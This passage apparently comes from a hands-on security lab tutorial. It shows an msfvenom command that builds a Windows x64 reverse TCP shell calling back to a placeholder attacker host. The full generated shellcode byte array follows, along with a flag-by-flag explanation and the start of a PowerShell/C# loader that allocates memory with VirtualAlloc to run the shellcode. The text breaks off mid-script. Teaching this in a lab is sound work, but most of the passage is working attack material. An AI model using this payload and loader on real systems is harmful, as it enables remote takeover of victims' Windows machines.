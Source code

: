 In the AttackBox, open the terminal and enter the command`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. The output will look like the following. You will require to replace the`ATTACKBOX_IP` with the IP of the AttackBox.


```shell
root@attackbox:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,
0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,
0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,
0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,
0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,
0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,
0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x1,0x8d,0x85,0xb2,0x0,0x0,
0x0,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x0 
```

The above command generates a piece of shellcode using`msfvenom`. Here's what each part means:

- `-p windows/x64/shell_reverse_tcp`: The`-p` flag tells`msfvenom` what type of payload to create.`windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
- `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
- `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
- `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.

**Where Is the Actual Shellcode**

The actual shellcode in the output above is the hex-encoded byte array, which starts with`0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. So, instead of seeing long strings of 1s and 0s, you see something like`0xfc` instead. 

We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call a few Windows APIs via C# code. Below is a simple PowerShell script that will execute our shellcode:

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); 
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

```